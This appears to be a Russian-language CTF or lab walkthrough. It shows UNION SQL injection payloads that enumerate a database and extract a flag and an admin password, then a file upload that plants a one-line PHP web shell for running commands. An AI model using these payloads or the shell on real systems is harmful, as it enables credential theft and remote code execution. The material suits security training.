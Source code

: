 ## Union SQL injection
У нас есть форма для ввода и отправки POST запросом UNION конструкций:
Первым делом можно узнать все базы данных:
```
' and 1 = 0 UNION SELECT 1,SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 3,1-- -
```
Выводится по одному значению, поэтому перебираем Limit 0,1 --> 1,1 -->2,1

![](https://i.imgur.com/5O3zH25.png)

Нужна БД называется users. Далее нужно найти все таблицы в этой БД:
```
' and 1 = 0 UNION SELECT 1,TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=database()LIMIT 1,1-- -
```
Здесь все тоже самое, в БД users лежит 3 таблицы: news, Flag, users
![](https://i.imgur.com/Fa6L8wc.png)
![](https://i.imgur.com/L46tS3D.png)
![](https://i.imgur.com/APLjY9d.png)

Теперь можно узнать колонки в интересующих нас таблицах:
В таблице Flag одна колонка flag
```
' and 1 = 0 UNION SELECT 1,COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA=database() AND TABLE_NAME='users'LIMIT 0,1-- -
```
![](https://i.imgur.com/25QWlDl.png)
В таблице users 5 колонок: 1) id 2)Login 3)Password 4)Name 5)Description
Теперь можно извлекать данные из этих колонок, из колонки flag:
```
' and 1 = 0 UNION SELECT 1,flag FROM Flag LIMIT 0,1-- -
```
![](https://i.imgur.com/CQPsB8E.png)

Но нам нужен пароль от админа, идем в таблицу users:
```
' and 1 = 0 UNION SELECT 1,Login FROM users LIMIT 1,1-- -
```
Видим что первый логин - админ, значит на той же позиции его пароль
![](https://i.imgur.com/IPydi8R.png)
```
' and 1 = 0 UNION SELECT 1,Password FROM users LIMIT 1,1-- -
```
![](https://i.imgur.com/ID6oVGC.png)

## File Upload
Тут необходимо залить файл картинку, например, jpeg, после чего мы видим путь, куда залился файл
![](https://i.imgur.com/brPJ76a.png)
![](https://i.imgur.com/e1XPxsy.png)
Нужен простой RCE скрипт для php, залить его также, получить Access Denied, но все равно посетить /pictures, в итоге мой скрипт:
```
<?php passthru($_GET['c']); ?>
```
Параметру С передаем команду, например ls /
